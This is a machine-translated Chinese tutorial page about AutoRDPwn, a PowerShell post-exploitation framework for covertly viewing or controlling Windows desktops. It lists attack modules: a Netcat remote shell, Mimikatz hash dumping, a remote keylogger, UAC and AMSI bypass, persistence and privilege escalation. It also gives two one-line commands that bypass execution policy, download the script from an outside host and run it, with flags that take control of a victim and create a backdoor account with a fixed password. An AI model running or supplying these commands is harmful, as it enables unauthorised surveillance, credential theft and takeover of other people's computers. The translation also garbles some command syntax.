



# AutoRDPwn:影子攻击框架

> 原文：<https://kalilinuxtutorials.com/autordpwn-shadow-attack-framework/>

AutoRDPwn 是在 Powershell 中创建的一个后利用框架，主要设计用于自动化对微软 Windows 计算机的**影子**攻击。该漏洞(被微软列为一项功能)允许远程攻击者在未经其同意的情况下查看其受害者的桌面，甚至使用操作系统本身的工具按需控制它。

由于有了额外的模块，可以通过 Netcat 获得远程 shell，使用 Mimikatz 转储系统散列，加载远程键盘记录程序等等。所有这一切，通过七种不同语言的完全直观的菜单。

此外，通过使用一节中描述的一系列参数，可以在反向 shell 中使用它。

**要求**

Powershell 4.0 或更高版本

**变化**

**5.0 版本**

*   全新标志从零开始完全重新设计
*   7 种语言的全面翻译:西班牙语、英语、法语、德语、it、俄语、葡萄牙语
*   绕过 UAC 和 AMSI，通过反向外壳远程执行
*   来自 Linux 的部分支持(用户指南中有更多信息)
*   改进的远程执行(受害者不再需要互联网连接)
*   可用的新部分:后门和持久性
*   新模块可用:远程键盘记录器
*   可用的新部分:权限提升
*   新模块可用:从操作系统获取信息
*   新模块可用:用夏洛克搜索漏洞
*   新模块可用:通过加电提升权限
*   新增部分:其他模块
*   新模块可用:执行外部脚本

*其余的更改可以在 CHANGELOG 文件中查阅

**也可以理解为-[Pyshark:t shark 的 Python 包装器，允许使用 Wireshark 解析器解析 Python 包](https://kalilinuxtutorials.com/pyshark-python-wrapper-tshark-allowing-python-packet-parsing/)**

**使用**

这个应用程序可以用于本地，远程或团队之间的枢纽。

在反向 shell 中远程使用时，有必要使用以下参数:

*   **admin / -noadmin** - >根据我们拥有的权限，我们将使用其中的一个
*   **nogui** - >这将避免加载菜单和一些颜色，保证其功能性
*   我们将选择自己的语言(英语、西班牙语、法语、德语、意大利语、俄语或葡萄牙语)
*   **选项** - >和菜单一样，我们可以选择如何发动攻击
*   **影子** - >我们将决定是否要查看或控制远程设备
*   **createuser** - >该参数可选，将在受害机器上创建用户 AutoRDPwn(密码:AutoRDPwn)

**一行本地执行:**

powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\AutoRDPwn.ps1 "

**线上远程执行示例:**

powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\ autordpwn . PS1-admin-nogui-lang English-option 4-shadow control-create user "

**截图**

[**Download**](https://github.com/JoelGMSec/AutoRDPwn)